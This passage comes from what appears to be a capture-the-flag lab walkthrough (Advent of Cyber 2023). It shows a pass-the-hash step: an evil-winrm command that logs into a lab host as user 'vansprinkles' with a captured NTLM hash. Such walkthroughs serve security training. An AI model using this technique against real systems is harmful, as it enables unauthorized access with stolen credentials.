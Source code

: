 ![AD|440](images/thm-aoc-2023-day-9-12/ad-4.png)

Once the session for the user has been generated using the NTLM hash we can use a pass-the-hash attack to log into the user's device. 

The next step needs to be performed from the Linux VM (Attack Box).

```bash
evil-winrm -i 10.10.165.189 -u vansprinkles -H 03E805D8A8C5AA435FB48832DAD620E3
```
